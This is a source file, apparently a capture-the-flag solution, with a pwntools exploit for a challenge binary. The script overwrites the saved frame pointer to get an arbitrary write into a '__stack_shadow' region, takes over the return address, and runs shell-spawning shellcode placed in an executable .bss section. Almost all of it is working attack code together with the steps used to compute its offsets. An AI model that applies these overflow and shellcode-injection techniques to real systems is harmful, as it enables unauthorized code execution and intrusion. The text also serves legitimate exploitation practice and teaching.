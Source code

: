 ```python
break *0x400138
break *0x400165
continue
    """,
    )

pwn.context.binary = elf = pwn.ELF("chall")
stack_shadow = elf.symbols["__stack_shadow"]
print(hex(stack_shadow))

"""
Exploit:
- Overwrite $rbp to set address for an arbitrary write
  - The address we'll use is `__stack_shadow`
- Overwrite return address in `__stack_shadow` to control $rip
- Jump into shellcode also stored on .bss, which is RWX
"""

# Part 1: Overwrite $rbp with to later write into `__stack_shadow` address

# RBP  0x636161706361616f ('oaacpaac')
offset = pwn.cyclic_find("oaac")
print(offset)

# lea rsi, [rbp-0x100]
# rbp - 0x100 = stack_shadow
# rbp = stack_shadow + 0x100

payload = b"A" * offset + pwn.p64(stack_shadow + 0x100)
io.sendlineafter("Data: ", payload)

# Part 2: Overwrite return address in `__stack_shadow` to jump into our
# shellcode

pwn.context.arch = "amd64"
binsh = pwn.asm(pwn.shellcraft.sh())
binsh_addr = pwn.p64(0x600244)

payload = b"B" * pwn.cyclic_find(0x61616163)
payload += binsh_addr + binsh
io.sendlineafter("Data: ", payload)
io.interactive()
```
